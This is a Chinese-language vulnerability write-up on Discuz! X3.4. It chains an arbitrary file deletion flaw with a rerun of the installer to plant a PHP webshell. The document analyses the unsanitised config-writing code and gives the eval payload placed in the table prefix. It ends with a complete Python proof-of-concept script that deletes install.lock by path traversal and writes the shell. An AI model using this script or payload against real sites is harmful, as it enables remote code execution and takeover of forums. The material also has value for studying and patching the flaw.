



Discuz! X3.4 任意文件删除配合install过程getshell
================================================

一、漏洞简介
------------

\*\*可以利用的条件：\*\*1、安装后没有登录后台，此时install/index还没删除
2、因为其他原因没有删除

二、漏洞影响
------------

Discuz! X3.4

三、复现过程
------------

### 漏洞分析

这个方法是看到一篇博客分析的，主要是利用文件删除漏洞删掉`install.lock`文件，绕过对安装完成的判断能够再进行安装的过程，然后再填写配置信息处构使用构造的表前缀名，时一句话写入配置文件中，getshell。

表前缀：`x');@eval($_POST[lanvnal]);('`

但是我在使用上面版本v3.4的代码时发现，安装后`install`目录下不存在`index.php`了。分析代码发现会有安装后的删除处理，在`/source/admincp/admincp_index.php`的第14行：

    if(@file_exists(DISCUZ_ROOT.'./install/index.php') && !DISCUZ_DEBUG) {
        @unlink(DISCUZ_ROOT.'./install/index.php');
        if(@file_exists(DISCUZ_ROOT.'./install/index.php')) {
            dexit('Please delete install/index.php via FTP!');
        }
    }

那是不是老版本存在该问题呢？

我翻了历史版本代码，直到git提交的第一个版本都有如上的处理。

但还是分析一下吧，就当学习了。

\*\*可以利用的条件：\*\*1、安装后没有登录后台，此时install/index还没删除
2、因为其他原因没有删除

分析一下安装逻辑，`install/index.php`文件的整体流程如下：

分别是我们安装的每一步，接受协议-\>环境检测-\>是否安装 UCenter
Server-\>数据库配置信息-\>安装过程，生成lock文件-\>检查

问题出在在 `db_init` 的处理中，在代码第369行：

    if(DZUCFULL) {
                install_uc_server();
            }

跟进`install_uc_server`，在1296行可以发现对config参数没做任何过滤传入到`save_uc_config`中：

    save_uc_config($config, ROOT_PATH.'./config/config_ucenter.php');

然后`save_uc_config`也没做任何安全处理，就拼接参数后写入文件：

    function save_uc_config($config, $file) {

        $success = false;

        list($appauthkey, $appid, $ucdbhost, $ucdbname, $ucdbuser, $ucdbpw, $ucdbcharset, $uctablepre, $uccharset, $ucapi, $ucip) = $config;

        $link = function_exists('mysql_connect') ? mysql_connect($ucdbhost, $ucdbuser, $ucdbpw, 1) : new mysqli($ucdbhost, $ucdbuser, $ucdbpw, $ucdbname);
        $uc_connnect = $link ? 'mysql' : '';

        $date = gmdate("Y-m-d H:i:s", time() + 3600 * 8);
        $year = date('Y');
        $config = <<<EOT
    <?php

    define('UC_CONNECT', '$uc_connnect');

    define('UC_DBHOST', '$ucdbhost');
    define('UC_DBUSER', '$ucdbuser');
    define('UC_DBPW', '$ucdbpw');
    define('UC_DBNAME', '$ucdbname');
    define('UC_DBCHARSET', '$ucdbcharset');
    define('UC_DBTABLEPRE', '`$ucdbname`.$uctablepre');
    define('UC_DBCONNECT', 0);

    define('UC_CHARSET', '$uccharset');
    define('UC_KEY', '$appauthkey');
    define('UC_API', '$ucapi');
    define('UC_APPID', '$appid');
    define('UC_IP', '$ucip');
    define('UC_PPP', 20);
    ?>
    EOT;

        if($fp = fopen($file, 'w')) {
            fwrite($fp, $config);
            fclose($fp);
            $success = true;
        }
        return $success;
    }

因为 `dbhost, dbuser`等参数需要用来连接数据库，所以利用 `tablepre`
向配置文件写入shell。

### 漏洞复现

如果安装后`install/index.php`因为某些原因还存在，直接访问会有如下警告：

通过文件删除漏洞删除data目录下的`install.lock`文件就可以重新安装。

安装过程修改表前缀内容为：`x');@eval($_POST[lanvnal]);('`

在`config/config_ucenter.php`中已经写入了webshell。

### poc

    #!/usr/bin/env python3
    import base64
    import random
    import re
    import string

    import requests

    sess = requests.Session()
    randstr = lambda len=5: ''.join(random.choice(string.ascii_lowercase) for _ in range(len))

    ##################################################
    ########## Customize these parameters ############
    target = 'http://localhost/discuzx'
    # login target site first, and copy the cookie here
    cookie = "UM_distinctid=15bcd2339e93d6-07b5ae8b41447e-8373f6a-13c680-15bcd2339ea636; CNZZDATA1261218610=1456502094-1493792949-%7C1494255360; csrftoken=NotKIwodOQHO0gdMyCAxpMuObjs5RGdeEVxRlaGoRdOEeMSVRL0sfeTBqnlMjtlZ; Zy4Q_2132_saltkey=I9b3k299; Zy4Q_2132_lastvisit=1506763258; Zy4Q_2132_ulastactivity=0adb6Y1baPukQGRVYtBOZB3wmx4nVBRonRprfYWTiUaEbYlKzFWL; Zy4Q_2132_nofavfid=1; Zy4Q_2132_sid=rsQrgQ; Zy4Q_2132_lastact=1506787935%09home.php%09misc; 7Csx_2132_saltkey=U8nrO8Xr; TMT0_2132_saltkey=E3q5BpyX; PXMk_2132_saltkey=rGBnNWu7; b4Gi_2132_saltkey=adC4r05k; b4Gi_2132_lastvisit=1506796139; b4Gi_2132_onlineusernum=2; b4Gi_2132_sendmail=1; b4Gi_2132_seccode=1.8dab0a0c4ebfda651b; b4Gi_2132_sid=BywqMy; b4Gi_2132_ulastactivity=51c0lBFHqkUpD3mClFKDxwP%2BI0JGaY88XWTT1qtFBD6jAJUMphOL; b4Gi_2132_auth=6ebc2wCixg7l%2F6No7r54FCvtNKfp1e5%2FAdz2SlLqJRBimNpgrbxhSEnsH5%2BgP2mAvwVxOdrrpVVX3W5PqDhf; b4Gi_2132_creditnotice=0D0D2D0D0D0D0D0D0D1; b4Gi_2132_creditbase=0D0D0D0D0D0D0D0D0; b4Gi_2132_creditrule=%E6%AF%8F%E5%A4%A9%E7%99%BB%E5%BD%95; b4Gi_2132_lastcheckfeed=1%7C1506800134; b4Gi_2132_checkfollow=1; b4Gi_2132_lastact=1506800134%09misc.php%09seccode"
    shell_password = randstr()
    db_host = ''
    db_user = ''
    db_pw = ''
    db_name = ''
    #################################################

    path = '/home.php?mod=spacecp&ac=profile&op=base'
    url = target + path

    sess.headers.update({
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
        'Referer': url})

    # sess.proxies.update({'http': 'socks5://localhost:1080'})
    # sess.proxies.update({'http': 'http://localhost:8080'})

    def login(username=None, password=None):
        sess.headers.update({'Cookie': cookie})

    def get_form_hash():
        r = sess.get(url)
        match = re.search(r'"member.php\?mod=logging&action=logout&formhash=(.*?)"', r.text, re.I)
        if match:
            return match.group(1)

    def tamper(formhash, file_to_delete):
        data = {
            'formhash': (None, formhash),
            'profilesubmit': (None, 'true'),
            'birthprovince': (None, file_to_delete)
        }
        r = sess.post(url, files=data)
        if 'parent.show_success' in r.text:
            print('tamperred successfully')
            return True

    def delete(formhash, file):
        if not tamper(formhash, file):
            return False

        image = b'iVBORw0KGgoAAAANSUhEUgAAAAoAAAAKCAIAAAACUFjqAAAADUlEQVR4nGNgGAWkAwABNgABVtF/yAAAAABJRU5ErkJggg=='
        data = {
            'formhash': formhash,
            'profilesubmit': 'true'
        }
        files = {
            'birthprovince': ('image.png', base64.b64decode(image), 'image/png')
        }
        r = sess.post(url, data=data, files=files)
        if 'parent.show_success' in r.text:
            print('delete {} successfully'.format(file))
            return True

    def getshell():
        install_url = target + '/install/index.php'
        r = sess.get(install_url)
        if '安装向导' not in r.text:
            print('install directory not exists')
            return False

        table_prefix = "x');@eval($_POST[{}]);('".format(shell_password)
        data = {
            'step': 3,
            'install_ucenter': 'yes',
            'dbinfo[dbhost]': db_host,
            'dbinfo[dbname]': db_name,
            'dbinfo[dbuser]': db_user,
            'dbinfo[dbpw]': db_pw,
            'dbinfo[tablepre]': table_prefix,
            'dbinfo[adminemail]': 'admin@admin.com',
            'admininfo[username]': 'admin',
            'admininfo[password]': 'admin',
            'admininfo[password2]': 'admin',
            'admininfo[email]': 'admin@admin.com',
        }
        r = sess.post(install_url, data=data)
        if '建立数据表 CREATE TABLE' not in r.text:
            print('write shell failed')
            return False
        print('shell: {}/config/config_ucenter.php'.format(target))
        print('password: {}'.format(shell_password))

    if __name__ == '__main__':
        login()
        form_hash = get_form_hash()
        if form_hash:
            delete(form_hash, '../../../data/install.lock')
            getshell()
        else:
            print('failed')

参考链接
--------

> https://xz.aliyun.com/t/7492\#toc-7
